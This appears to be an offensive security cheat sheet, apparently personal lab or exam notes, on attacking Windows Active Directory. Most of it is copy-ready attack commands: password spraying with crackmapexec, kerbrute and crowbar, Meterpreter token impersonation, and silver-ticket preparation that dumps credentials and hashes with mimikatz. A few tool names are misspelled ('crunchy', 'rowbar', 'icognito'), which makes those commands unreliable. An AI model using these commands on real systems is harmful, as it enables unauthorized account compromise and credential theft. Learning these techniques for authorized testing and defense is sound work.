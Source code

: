 ```bash
        e.g. crackmapexec smb 192.168.1xx.100 -u users.txt -p 'ESMWaterP1p3S!'
        e.g. crackmapexec 192.168.57.0/24 -u fcastle -d MARVEL.local -p Password1
        users.txt from Get-NetUser
```

- Spray with Kerbrute
- Principle: if username and password is correct, we will obtain a TGT. Kerbrute will test all username and password and return us with success if TGT is obtained with a valid username and password. **Can also just test with username to see if the user is a valid user in the domain.**
```bash
kerbrute passwordspray -d corp.com .\usernames.txt "pass"
kerbrute -domain heist.offsec -users /usr/share/wordlists/names.txt -dc-ip 192.168.194.165
```

- Brute force small number of guess passwords on list of found usernames (tool: Spray-Passwords.ps1) (For LDAP protocol)
  ```bash
  .\Spray-Passwords.ps1
  .\Spray-Passwords.ps1 -Pass Nexus123! -Admin
  ```
  
-   Create Password List  
     `crunchy <length> <length> -t <pw-core>%%%% `
   
-    Spray  
     `rowbar -b rdp -s <ip>\32 -U users.txt -C pw.txt -n 1`


# Ticket and Token based
## Token Impersonation
```
meterpreter load icognito  
list_tokens  
impersonate_token <token>  
```

## Silver Ticket (Forge own TGS service ticket)
- Precondition1: Privileged Account Certificate (PAC) validation **not enabled**
- Precondition2: obtain that service account's password hash (via Kerberoasting or other means), it could then forge a TGS for that SPN and access the service that utilizes it
- Principle: the application blindly trusts the integrity of the service ticket since it is encrypted with a password hash that is, in theory, only known to the service account and the domain controller.
- Get SID of your current box
```
GetDomainsid (PowerView)
```
or  
```
whoami /user
```
- Get Machine Account Hash (e.g. username: iis_service)
```
privilege::debug
sekurlsa::logonpasswords
```
or
```
Invoke-Mimikatz '"lsadump::lsa /patch"' -ComputerName <hostname_dc>
```
